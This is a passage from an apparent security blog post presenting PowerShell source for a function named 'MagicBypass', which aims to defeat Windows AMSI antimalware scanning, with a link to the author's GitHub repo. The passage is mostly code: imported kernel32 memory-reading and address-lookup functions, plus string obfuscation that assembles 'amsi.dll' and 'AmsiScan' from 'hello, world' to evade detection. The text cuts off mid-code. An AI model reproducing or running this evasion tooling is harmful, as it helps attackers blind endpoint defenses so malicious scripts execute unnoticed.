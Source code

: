 Here's our completed code, which is also available on [Vixx's GitHub
repo](https://github.com/V-i-x-x/AMSI-BYPASS/):

```
function MagicBypass {

# Define named parameters
param(
    $InitialStart = 0x50000,
    $NegativeOffset= 0x50000,
    $MaxOffset = 0x1000000,
    $ReadBytes = 0x50000
)

$APIs = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;

public class APIs {
    [DllImport("kernel32.dll")]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt32 nSize, ref UInt32 lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
   
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

    [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
    public static int Dummy() {
     return 1;
    }
}
"@

Add-Type $APIs

$InitialDate=Get-Date;

$string = 'hello, world'
$string = $string.replace('he','a')
$string = $string.replace('ll','m')
$string = $string.replace('o,','s')
$string = $string.replace(' ','i')
$string = $string.replace('wo','.d')
$string = $string.replace('rld','ll')

$string2 = 'hello, world'
$string2 = $string2.replace('he','A')
$string2 = $string2.replace('ll','m')
$string2 = $string2.replace('o,','s')
$string2 = $string2.replace(' ','i')
$string2 = $string2.replace('wo','Sc')
$string2 = $string2.replace('rld','an')
```